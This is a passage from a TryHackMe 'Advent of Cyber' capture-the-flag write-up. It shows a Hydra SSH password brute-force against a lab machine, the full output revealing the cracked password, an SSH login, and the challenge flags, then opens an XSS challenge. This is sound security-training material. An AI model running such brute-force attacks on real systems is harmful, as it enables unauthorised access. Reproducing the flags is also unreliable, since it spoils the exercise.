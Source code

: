 `THM{2673a7dd116de68e85c48ec0b1f2612e}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190 -I
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:25:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.132.190:22/
[22][ssh] host: 10.10.132.190   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 09:25:53
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh molly@10.10.132.190

molly@ip-10-10-132-190:~$ ls
flag2.txt
molly@ip-10-10-132-190:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

`THM{c8eeb0468febbadea859baeb33b2541b}`

## [Day 18] ELF JS

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

_P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth._

